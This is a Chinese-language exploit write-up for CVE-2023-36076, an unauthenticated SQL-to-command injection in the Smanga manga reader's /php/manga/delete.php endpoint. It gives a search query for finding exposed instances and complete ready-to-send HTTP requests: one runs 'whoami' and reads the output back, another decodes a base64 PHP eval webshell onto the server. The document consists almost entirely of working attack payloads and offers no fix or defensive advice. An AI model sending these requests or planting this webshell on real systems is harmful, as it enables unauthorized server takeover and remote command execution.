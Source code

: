 # Smanga未授权远程代码执行漏洞(CVE-2023-36076)

# 一、漏洞简介
Smanga无需配置，docker直装的漫画流媒体阅读工具。以emby plex为灵感，为解决漫画阅读需求而开发的漫画阅读器。在/php/manga/delete.php接口处存在未授权远程代码执行漏洞，攻击者可在目标主机执行任意命令，获取服务器权限。

# 二、影响版本
+ Smanga

# 三、资产测绘
+ hunter`web.title=="smanga"`
+ 特征

![1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0.png](./img/6zH2rDbEXutDEKrx/1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0-384375.png)

# 四、漏洞复现
```java
POST /php/manga/delete.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ak;q=0.8
If-None-Match: "63ff3602-c6d"
If-Modified-Since: Wed, 01 Mar 2023 11:24:50 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 360

mangaId=1 union select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d join (select '\";echo `whoami` > 1.txt;\"')e join (select 6)f join (select 7)g join (select 8)h join (select 9)i join (select 10)j join (select 11)k join (select 12)l;&deleteFile=true
```

![1704896774471-f0fafe1c-b1a8-4039-b32b-dcc54e0e2d59.png](./img/6zH2rDbEXutDEKrx/1704896774471-f0fafe1c-b1a8-4039-b32b-dcc54e0e2d59-384132.png)

获取命令执行结果

```java
GET /php/manga/1.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1704896808454-1fdfd6bb-66bc-4487-8f91-e6b908e9efce.png](./img/6zH2rDbEXutDEKrx/1704896808454-1fdfd6bb-66bc-4487-8f91-e6b908e9efce-693600.png)

写入webshell

```java
POST /php/manga/delete.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ak;q=0.8
If-None-Match: "63ff3602-c6d"
If-Modified-Since: Wed, 01 Mar 2023 11:24:50 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 360

mangaId=1 union select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d join (select '\";echo PD9waHAgY2xhc3MgR3c2UVBoNjYgeyBwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJEg4OTBhKXsgQGV2YWwoIi8qWjlZczlnSVY3MyovIi4kSDg5MGEuIi8qWjlZczlnSVY3MyovIik7IH19bmV3IEd3NlFQaDY2KCRfUkVRVUVTVFsneCddKTs/Pg== | base64 -d > 1.php;\"')e join (select 6)f join (select 7)g join (select 8)h join (select 9)i join (select 10)j join (select 11)k join (select 12)l;&deleteFile=true
```

webshell地址

```java
/php/manga/1.php
```

![1704896888984-0b313d0c-dfd8-48a8-98e3-00edde806d77.png](./img/6zH2rDbEXutDEKrx/1704896888984-0b313d0c-dfd8-48a8-98e3-00edde806d77-383079.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fgwxzim62xadgc33>